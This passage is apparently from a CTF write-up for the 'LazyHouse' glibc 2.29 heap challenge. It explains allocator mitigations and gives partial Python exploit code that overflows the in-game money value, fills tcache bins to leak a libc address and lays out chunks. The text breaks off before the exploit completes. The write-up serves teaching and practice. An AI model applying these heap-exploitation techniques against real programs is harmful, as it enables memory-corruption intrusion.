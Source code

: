 ![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Heap/LazyHouse/index_files/395a9006-bf36-47e5-a813-bab06c277bb8.png)

- ```calloc``` will zero the memory got from ```__int_malloc```.
### Glibc 2.29
1. Glibc2.28 disallowed **unsotedbin attack** for arbitrary address writing. So, it is not easy to overwrite ```global_max_fast``` to fuck chunks and bins of any size into the range of fastbins.
2. Glibc2.29 disallowed **house of force**.

## Exploit
### Get Enough Money
I play the trick mentioned before to get the money close to 0xffffffffffffffff for further exploiting.
```
def fuck_money(size):
    buy_house(7, size, "\x00")
    sell(7)
    log.critical(hex(check_money()))

fuck_money(0x13f69b02593f69b1)
fuck_money(0x109bb0727572e2bd)
fuck_money(0x13f2b1389a662c33)
fuck_money(0x4fcace18cee3091)
```

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Heap/LazyHouse/index_files/cbaa8b6f-b60b-4c5d-af07-06a2924d0a25.jpg)

### Leak
If we want to make the address of libc appear in heap, we should make the tcache bins of our size full. It is great that **calloc** does not obtain bin from tcache bins. So, we can do buy and sell operation for more then 7 times to fill tcache bins of our size up.
```
make tcache size 0x217 full
or i in range(0, 7):
   buy_house(7, 0x217, "\x00")
   sell(7)
```

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Heap/LazyHouse/index_files/329286fc-7b53-416b-8f85-46d2e05f257c.jpg)

```
buy_house(2, 0x80, "x" * 0x10)
sell(2)
buy_house(0, 0x400, "\xaa" * 0x400)
buy_house(1, 0xa0, "\xbb" * 0xa0)
buy_house(2, 0x90, "\xcc" * 0x90)
buy_house(3, 0x90, "\xdd" * 0x90)
```
The distribution of the chunks is shown as follows.

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Heap/LazyHouse/index_files/73dffed6-facd-41a0-b481-5e24577c05a3.png)
